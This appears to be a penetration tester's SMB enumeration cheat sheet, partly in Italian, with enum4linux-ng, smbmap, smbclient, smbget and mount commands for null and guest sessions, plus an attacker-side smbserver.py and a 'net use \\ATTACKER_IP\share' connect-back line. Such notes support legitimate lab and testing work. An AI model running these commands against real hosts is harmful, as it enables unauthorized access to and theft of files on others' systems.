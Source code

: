 Port 445 TCP

# Tools

## enum4linux-ng
```bash
#Full, force guest session with wrong credentials
enum4linux-ng 89.108.102.21 -A -R -u 'g' -p 'h'

#Full, use on DC
enum4linux-ng 89.108.102.21 -A -R -d -u 'g' -p 'h'

#Stealthier, No RID bruteforcing
enum4linux-ng 89.108.102.21 -As

```

## smbmap
```bash
#Force guest session with wrong credentials
smbmap -H 89.108.102.21 -u 'h' -p 'h'

#Anonymous Session
smbmap -H 89.108.102.21 

#Stealthier, No RID bruteforcing
enum4linux-ng 89.108.102.21 -As

```

## smbclient
Sometimes servers are configured in a way that standard shares enumeration techniques (such as the ones used by enum4linux or smbmap) don't work.
smbclient uses a different approach ad it's worth trying if you suspect a null session is achievable.

```bash

#Null session directory listing 
smbclient -N -L \\\\172.16.27.132
#Interactive mode (Null)
smbclient -N \\\\172.16.27.132\\C$


#User directory listing
smbclient -L \\\\172.16.27.132 -U 'administrator'
smbclient \\\\172.16.27.132\\C$ -U administrator

```

## smbserver.py

```bash
#con auth
sudo smbserver.py k . -username 'kek' -password 'kek123!'  -smb2support 

# no auth smb1
sudo smbserver.py k . 
```

piccola considerazione se `net use`:
Se ho una shell con utente di cui non so la psw e non accetta smb1 p smb2 unauth, posso usare il comando net per collegarmi alla shell SPECIFICANDO LE CREDENZIALI!

```powershell
net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
```


## Download Files

```bash
#Scarica TUTTI i files nella cartella
smbget -R smb://192.168.212.71/backups  
```

# Mounting
`sudo apt install cifs-utils `

Then

```bash
#Anonymous login (submit a random psw when asked)
sudo mount -t cifs //10.129.136.29/Backups ~/pentests/HTB/Bastion/mount/ -o rw

#User login (NOT SURE)
sudo mount -t cifs user@//10.129.136.29/Backups ~/pentests/HTB/Bastion/mount/ -o rw

```